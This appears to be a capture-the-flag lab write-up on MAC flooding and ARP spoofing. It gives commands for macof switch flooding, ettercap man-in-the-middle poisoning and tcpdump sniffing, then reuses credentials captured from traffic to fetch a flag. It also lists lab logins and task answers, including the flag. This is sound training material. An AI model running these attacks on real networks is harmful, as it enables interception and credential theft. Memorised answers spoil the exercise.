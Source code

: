 # L2-MAC-Flooding-ARP-Spoofing

<h3>1.Initial Access</h3>

```
User	  Password	IP	        Port
admin	  Layer2	  10.10.68.1	22
```

We need to login into that SSH, by above credentials.
Use that command in terminal ```ssh -o StrictHostKeyChecking=accept-new admin@10.10.68.1```
The admin user is in the sudo group. I suggest using the root user to complete this room: sudo su -

Task 1:Now, can you (re)gain access? (Yay/Nay)
The answer is: yay

<h3>2.Network Discovery</h3>

Task 1:What is your IP address?
We need to use that command to list it - ```ip a s eth1```

![image](https://github.com/user-attachments/assets/5f4e97e8-0a57-4bbb-abb5-9797033c3142)

The answer is: 192.168.12.66

Task 2:What's the network's CIDR prefix?
You can find answer in above screanshot:
/24 is the prefix length, indicating that the first 24 bits of the address are used for the network identifier.

Task 3:How many other live hosts are there?
We will use the nmap, in that exampel: ```nmap -sn 10.10.68.1```
The answe is: 2

Task 4:What's the hostname of the first host (lowest IP address) you've found?
The answer will be alice, chcek below:

![image](https://github.com/user-attachments/assets/5de8a446-48e2-43ad-bb4f-5ddf005207a2)


<h3>3.Passive Network Sniffing</h3>

Task 1:Can you see any traffic from those hosts? (Yay/Nay)
The answer will be: yay, because when u instert that command ```tcpdump -A -i eth1``` you can see a lot of trafic.

Task 2:Who keeps sending packets to eve?
We can check it by that command ```tcpdump -A -i eth1```, the answer will be: bob.

![image](https://github.com/user-attachments/assets/311ecd73-f656-42a9-b4a5-1afa97f4c5e9)

Task 3:What type of packets are sent?
We need to save all of that traffic in one file by that command: ```tcpdump -A -i eth1 -w /tmp/tcpdump.pcap```
Then open another windows and use that command to copy that file into our machine ```scp admin@10.10.68.1:/tmp/tcpdump.pcap .```, and open it by wireshark tcpdump.pcap
The answer is: ICMP

![image](https://github.com/user-attachments/assets/84c930dd-a2b4-4b9f-8141-8e2def8a73a2)

Task 4:What's the size of their data section? (bytes)
The answer will be: 666, check below:

![image](https://github.com/user-attachments/assets/1ff3784d-f07a-45fa-81dc-cea62d042d3f)


<h3>4.Sniffing while MAC Flooding</h3>


Task 1:What kind of packets is Alice continuously sending to Bob? 
For better usability, open a second SSH session. This way, you can leave the tcpdump process running in the foreground on the first SSH session:
```tcpdump -A -i eth1 -w /tmp/tcpdump2.pcap```

On the second SSH session, buckle up and let macof run against the interface to start flooding the switch:
```macof -i eth1```

After around 30 seconds, stop both macof and tcpdump (Ctrl+C).
As in the previous task, transfer the pcap to your machine by that command: ```scp admin@10.10.68.1:/tmp/tcpdump2.pcap .```

The answer will be ICMP:

![image](https://github.com/user-attachments/assets/8bc2814f-9cb2-4d60-89ec-c764f6476890)

Task 2:What's the size of their data section? (bytes)
The answer is: 1337

<h3>5.Man-in-the-Middle: Intro to ARP Spoofing</h3>

Task 1:Can ettercap establish a MITM in between Alice and Bob? (Yay/Nay)
Test that command in terminal: ```ettercap -T -i eth1 -M arp```, the answer is nay, you need to check it by your self, because i couldn't display all of this results is to much :D

Task 2:Would you expect a different result when attacking hosts without ARP packet validation enabled? (Yay/Nay)
The answer is: yay

tl;dr – "an attacker sends (spoofed) ARP messages […] to associate the attacker's MAC address with the IP address of another host […] causing any traffic meant for that IP address to be sent to the attacker instead. ARP spoofing may allow an attacker to intercept data frames on a network, modify the traffic, or stop all traffic. Often the attack is used as an opening for other attacks, such as denial of service, man in the middle, or session hijacking attacks."


<h3>6.Man-in-the-Middle: Sniffing</h3>

Task 1:Scan the network on eth1. Who's there? Enter their IP addresses in ascending order.
We need to use that command ```ip address show eth1``` to display that information

![image](https://github.com/user-attachments/assets/2dd8bc5d-8f47-4c68-a71a-d4648b5328ca)

Then u will gate that ip insert that command ``` nmap  192.168.12.66/24```
The answer is: 192.168.12.10, 192.168.12.20
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-08 13:52 UTC
Nmap scan report for alice (192.168.12.10)
Host is up (0.0019s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
4444/tcp open  krb524
MAC Address: 0A:4C:D2:BC:BD:86 (Unknown)

Nmap scan report for bob (192.168.12.20)
Host is up (0.0019s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: C2:31:C0:3F:41:28 (Unknown)

Nmap scan report for eve (192.168.12.66)
Host is up (0.0000070s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
5002/tcp open  rfe
```

Task 2: Which machine has an open well-known port?
The answer is: 192.168.12.20, because that ip have http port (80)

Task 3:What is the port number?
Like i wrote above: 80

Task 4:Can you access the content behind the service from your current position? (Nay/Yay)
I check it in web browser, and that what i saw: This site is unreachable, so the answer is: nay

Task 5:Can you see any meaningful traffic to or from that port passively sniffing on you interface eth1? (Nay/Yay)
Use that command ```sudo tcpdump -vvA -i eth1``` and the answer is nay, we can't see anymeaingful.

Task 6:Now launch the same ARP spoofing attack as in the previous task. Can you see some interesting traffic, now? (Nay/Yay)
Use that command ```sudo ettercap -T -i eth1 -M arp``` we see a lot of traffic, check sample below:

```
Sun Sep  8 14:25:56 2024 [92939]
  192.168.12.10:0 --> 192.168.12.20:0 |  (0)
Sun Sep  8 14:25:56 2024 [93010]
  192.168.12.20:0 --> 192.168.12.10:0 |  (0)
Sun Sep  8 14:25:58 2024 [859412]
TCP  192.168.12.10:4444 --> 192.168.12.20:51934 | AP (4)
pwd
Sun Sep  8 14:25:58 2024 [866310]
TCP  192.168.12.20:51934 --> 192.168.12.10:4444 | FA (0)
Sun Sep  8 14:25:58 2024 [917901]
TCP  192.168.12.10:4444 --> 192.168.12.20:51934 | A (0)
Sun Sep  8 14:25:59 2024 [867771]
TCP  192.168.12.10:4444 --> 192.168.12.20:51938 | AP (4)
pwd
Sun Sep  8 14:25:59 2024 [874318]
TCP  192.168.12.20:51938 --> 192.168.12.10:4444 | A (0)
Sun Sep  8 14:25:59 2024 [874483]
TCP  192.168.12.20:51938 --> 192.168.12.10:4444 | AP (6)
/root
```

Task 7.Who is using that service?
If you look at the first captured traffic, it is 192.168.12.10 initiating a conversation with 192.168.12.20. 192.168.12.10 is indeed Alice’s IP address.

Task 8:What's the hostname the requests are sent to?
If u will look down, you can find this: www.server.bob

![image](https://github.com/user-attachments/assets/5192b1b0-efb3-4d09-afe2-1df5b5c1ce29)

Task 8:Which file is being requested?
Look above against the server.bob is test.txt

Task 9:What text is in the file?
The answer is: OK

![image](https://github.com/user-attachments/assets/3a813410-8cc0-4bc5-ba4f-fee0611dafc9)


Task 10:Which credentials are being used for authentication? (username:password)
You can also find it, there: USER: admin  PASS: s3cr3t_P4zz

![image](https://github.com/user-attachments/assets/6d760d2c-6693-4540-9f2a-12d91f8471f0)

Task 11:Now, stop the attack (by pressing q). What is ettercap doing in order to leave its man-in-the-middle position gracefully and undo the poisoning?
You need to stop the attack by presing q on keyboard, second-last line displayed after pressing q: RE-ARPing the victims

Task 12:Can you access the content behind that service, now, using the obtained credentials? (Nay/Yay)
The answer is: yay ```curl -u admin:s3cr3t_P4zz http://192.168.12.20/```

Task 13:What is the user.txt flag?
```curl -u admin:s3cr3t_P4zz http://192.168.12.20/user.txt``` insert that command in terminal, and you will see that: THM{wh0s_$n!ff1ng_0ur_cr3ds}

Task 14:You should also have seen some  rather questionable kind of traffic. What kind of remote access (shell) does Alice have on the server?
The answer is: reverse shell

Task 15:What commands are being executed? Answer in the order they are being executed.
If you go back to the ettercap output, you can see Alice using reverse shell to control Bob’s system by entering commands such as whoami, pwd, ls

Task 16:Which of the listed files do you want?
That how you can see, this will be a root.txt

![image](https://github.com/user-attachments/assets/5bd4c843-c263-4626-8c2b-7437ea431676)


